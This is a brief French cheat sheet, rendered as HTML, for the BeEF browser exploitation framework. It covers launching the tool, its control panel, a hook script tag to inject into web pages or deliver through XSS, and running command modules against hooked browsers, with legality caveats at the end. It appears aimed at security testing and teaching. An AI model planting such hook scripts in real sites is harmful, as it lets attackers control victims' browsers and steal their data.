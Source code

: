 <!DOCTYPE html []>
<html>
  <head>
    <meta charset="UTF-8" />
    <meta name="author" content="MarkdownViewer++" />
            

  </head>
  <body>
    <h1 id="beef-browser-exploitation-framework-cheat-sheet">BeEF (Browser Exploitation Framework) Cheat Sheet</h1>
    <h2 id="prerequis">Prérequis</h2>
    <ul>
      <li>BeEF installé sur votre système.</li>
      <li>Navigateur cible avec JavaScript activé.</li>
    </ul>
    <h2 id="demarrage-de-beef">Démarrage de BeEF</h2>
    <h3 id="lancer-beef">Lancer BeEF</h3>
    <pre>
      <code>beef
</code>
    </pre>
    <h2 id="interface-utilisateur-de-beef">Interface Utilisateur de BeEF</h2>
    <h3 id="acceder-a-linterface-ui">Accéder à l'interface UI</h3>
    <ul>
      <li>Ouvrez votre navigateur et allez à <code>http://127.0.0.1:3000/ui/panel</code></li>
      <li>Connectez-vous avec les identifiants par défaut ou ceux que vous avez configurés.</li>
    </ul>
    <h2 id="hooking-des-navigateurs">Hooking des Navigateurs</h2>
    <h3 id="obtenir-le-script-de-hook">Obtenir le script de hook</h3>
    <ul>
      <li>Dans l'interface de BeEF, copiez le script de hook (ex. <code>&lt;script src="http://127.0.0.1:3000/hook.js"&gt;&lt;/script&gt;</code>).</li>
    </ul>
    <h3 id="injecter-le-script-de-hook-dans-des-pages-web">Injecter le script de hook dans des pages web</h3>
    <ul>
      <li>Le script peut être injecté manuellement dans des pages web ou via des attaques XSS.</li>
    </ul>
    <h2 id="utilisation-des-modules">Utilisation des Modules</h2>
    <h3 id="selectionner-un-navigateur-hooke">Sélectionner un navigateur hooké</h3>
    <ul>
      <li>Dans l'interface UI de BeEF, cliquez sur un navigateur sous "Hooked Browsers".</li>
    </ul>
    <h3 id="choisir-et-executer-des-modules">Choisir et exécuter des modules</h3>
    <ul>
      <li>Sélectionnez un module à exécuter depuis le panneau "Commands".</li>
      <li>Configurez les options du module et lancez-le.</li>
    </ul>
    <h2 id="astuces">Astuces</h2>
    <ul>
      <li>Toujours utiliser BeEF dans un cadre légal. L'utilisation non autorisée contre des navigateurs sans consentement est illégale.</li>
      <li>BeEF est puissant pour démontrer l'impact des attaques de type client et l'importance de la sécurité du navigateur.</li>
      <li>Testez BeEF dans un environnement contrôlé pour comprendre comment sécuriser vos applications web contre ce type d'attaque.</li>
    </ul>
  </body>
</html>
